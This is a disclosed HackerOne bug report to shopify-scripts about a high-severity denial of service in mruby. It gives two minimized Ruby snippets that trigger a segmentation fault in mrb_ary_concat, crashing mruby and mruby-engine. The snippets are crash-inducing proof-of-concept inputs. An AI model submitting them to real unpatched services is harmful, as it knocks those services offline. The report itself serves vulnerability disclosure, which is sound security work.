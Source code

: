 # Denial of service due to invalid memory access in mrb_ary_concat

## Report Details
- **Report ID**: 184712
- **URL**: https://hackerone.com/reports/184712
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-11-24T04:35:19.514Z
- **Disclosed**: 2016-12-17T20:07:10.168Z

## Reporter
- **Username**: haquaman
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Hi,

The following file causes a segmentation fault in mruby, which also causes a segmentation fault in mruby-engine. I've minimized this file down to the bare bones what crashes it, then renamed variables and tidied so you can see what is needed and what isn't.

```
case ""
  when 0
end
x *case
  when true
    * = 0
end
```

Also this file causes the same issue:

```
case ""
  when 0
end
x = *case
  when 0
    * = 0
end
```

Difference between the two is one is a method call, and one is assignment.
